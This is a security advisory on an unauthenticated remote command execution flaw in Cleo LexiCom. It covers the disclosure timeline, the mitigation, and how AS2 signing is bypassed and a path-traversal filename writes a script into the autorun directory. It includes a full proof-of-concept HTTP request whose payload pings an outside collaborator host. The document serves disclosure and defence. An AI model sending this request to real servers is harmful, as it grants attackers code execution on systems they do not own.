 # Cleo - LexiCom Remote Command Execution

## Vendors

* Cleo

## Affected Products

Cleo LexiCom/5.5.0.0

## Summary

Cleo LexiCom is susceptible to an unrestricted file upload vulnerability when processing remote input from an unauthenticated user, leading to remote command execution.

## Remediation/Mitigation

It is unknown if later versions of LexiCom address this issue. It may be possible to mitigate this, in part, by requiring in-bound messages to be signed and encrypted. This must be configured on a partner by partner basis. However, requiring encryption and signing would not stop a trading partner from exploiting this vulnerability to gain code execution.

## Credit

This issue was found by Stephen Breen of Atredis Partners.

## References

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-33576
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-33577
- https://www.cleo.com/cleo-lexicom

## Report Timeline

- 2021-02-24: Atredis Partners reached out to the vendors support team for a security contact.
- 2021-02-25: Vendor replied that the support team also handles security issues.
- 2021-03-01: Atredis Partners uploaded the vulnerability report to the vendors secure file transfer site.
- 2021-03-02: Vendor support team replied with release notes for v5.6.2 of LexiCom, but release notes do not list if issue is fixed.
- 2021-03-02: Atredis Partners informed the vendor that this is a vulnerability disclosure and that Atredis is not one of thier customers.
- 2021-03-23: Atredis requested an update, no response from vendor.
- 2021-04-13: Atredis requested an update, no response from vendor.
- 2021-04-14: Atredis reported the vulnerability to CERT/CC.
- 2021-06-01: Atredis published this advisory.


## Technical Details
LexiCom is an Electronic Data Interfchange (EDI) product from the vendor Cleo. It facilitates communication between trading partners over industry standard protocols such as Applicability Statement 2 (AS2). Two flaws in Cleo LexiCom's implmentation led to the ability to obtain remote command execution as an unauthenticated user:

The first is that the requirement for the sender of an AS2 message to identify themselves via encryption and signing of the message can be bypassed by changing the Content-Type of the message to `text/plain`.

The second flaw is that within the AS2 message the sender can specify a filename. This filename can include path-traversal characters allowing the file to be written to an arbitrary location on disk.

These flaws can be exploited to gain remote command execution on the system by taking advantage of a feature of the application. The installation directory for the application contains a directory called `autorun` at `C:\LexiCom\autorun`. LexiCom will parse files placed in this directory and attempt to execute them as scripts in a special format. The following `POST` request was used to write a file to the `autorun` directory which LexiCom would then execute.

```http
POST / HTTP/1.1
Micalg:sha1
Date:Sun, 26 Jul 2020 17:18:04 GMT
Accept-Encoding:deflate, gzip, x-gzip, compress, x-compress
Disposition-Notification-Options:signed-receipt-protocol=optional, pkcs7-signature; signed-receipt-micalg=optional, sha1
Disposition-Notification-To:<redacted>
Ediint-Features:CEM, multiple-attachments, AS2-Reliability
Subject:EDIINTDATA
AS2-Subject:test
Te:trailers, deflate, gzip, compress
Content-Type:text/plain
Recipient-Address:<redacted>
Message-Id:<redacted>
As2-From:<redacted>
User-Agent:RPT-HTTPClient/0.3-3I (Linux)
As2-Version:1.2
Content-Disposition:attachment; filename=\..\..\autorun\test.txt
Content-Length: 78
Host:<redacted>
As2-To:<redacted>
Mime-Version:1.0
Content-Length: 78

-r * -c "SYSTEM ping <redacted>.burpcollaborator.net"
```

None of the information in the above request would be considered secret or hard to obtain. The `Message-Id` field can be anything so long as it is unique to the request. The `As2-From` field must be set to the identifier (ID) of a valid trading partner configured with LexiCom. These IDs are not secret and are publicly available. 

